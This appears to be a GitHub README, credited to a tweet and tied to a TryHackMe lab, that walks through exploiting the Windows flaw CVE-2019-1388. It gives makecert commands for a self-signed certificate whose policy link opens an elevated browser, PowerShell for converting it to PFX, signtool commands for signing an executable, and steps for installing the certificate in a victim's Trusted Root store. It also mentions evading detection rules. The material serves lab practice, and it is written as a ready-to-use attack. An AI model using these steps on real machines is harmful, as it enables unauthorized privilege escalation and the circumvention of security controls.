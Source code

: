 # CVE-2019-1388 Self-Signed Certificate Technique
This technique could be useful in exploiting CVE-2019-1388, for example working around [system misconfiguations that prevent launching HTTP(S) URLs][tryhackme], or avoiding some detection rules.

This information was sourced from [@OmriInbar][] on twitter, it is transcribed and notated here for ease of use.

[tryhackme]: https://tryhackme.com/room/retro
[@OmriInbar]: https://twitter.com/OmriInbar/status/1198659244456914947
	(It's funny to see the CVE being referred to as the "hhupd.exe Exploit". If you don't care about your exe being signed then you can create your own exe that will work perfectly. you just need the added step of installing the certificate at the Trusted Root store)

## Environment
- Using powershell
- Working in C:\temp
- makecert.exe and signtool.exe copied to C:\temp
- calc.exe copied to C:\temp

## Make Cert
[MakeCert.exe Documentation](https://docs.microsoft.com/en-us/windows/win32/seccrypto/makecert)

The elevated process is launched via whatever URL we provide to the `-l` option. We are not restricted to using HTTP(S), for example `ftp://` URLs can also launch Internet Explorer.
````
.\makecert.exe -r -pe -n "OU=fake inc; O=fake; L=Internet" -ss My -sky exchange -sp "Microsoft Enhanced RSA and AES Cryptographic Provider" -l "https://localhost/" -sy 24 C:\temp\out.cer -e 12/31/2050
````
| Option					| Description	|
|---						|---			|
| -r						| Creates a self-signed certificate. |
| -pe						| Marks the private key as exportable. |
| -n "Name"					| Name for the publisher's certificate. This name must conform to the X.500 standard. |
| -ss SubjectCertStoreName	| Name of the subject's certificate store where the generated certificate will be stored.|
| -sky SubjectKeySpec		| Subject's key specification. |
| -sp SubjectProviderName	| CryptoAPI provider for subject. |
| -l PolicyLink				| Link to SPC agency policy information (for example, a URL). |
| -sy nSubjectProviderType	| CryptoAPI provider type for subject. |
| -e DateEnd				| Date when the validity period ends. |

## Convert .cer to .pfx using powershell
````
$Convert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2("C:\temp\out.cer");
$out = $Convert.Export("pfx","12345678");
[System.IO.File]::WriteAllBytes("C:\temp\out.pfx", $out);
````

## Sign an exe
[SignTool.exe Documentation](https://docs.microsoft.com/en-us/windows/win32/seccrypto/signtool#sign-command-options)
````
.\signtool.exe sign /f "C:\temp\out.pfx" /d "fake" /p "12345678" "C:\temp\calc.exe"
````
| Option			| Description	|
|---				|---			|
| /f SignCertFile	| Specifies the signing certificate in a file. |
| /d Desc			| Specifies a description of the signed content. |
| /p Password		| Specifies the password to use when opening a PFX file. |

## Exploiting

As noted in the source tweet there is one extra step of importing the certificate into the Trusted Root Store on the victim machine.
![Right click on the "signed" exe file and open Properties, go to the Digitial Signatures tab: highlight the signature and click Details, click View Certificate, then click Install Certificate, select Store Location as Current User, then browse to and select the Trusted Root Certification Authorities store and comlete the wizard, then proceed with the exploit as normal.](import-cert.png)
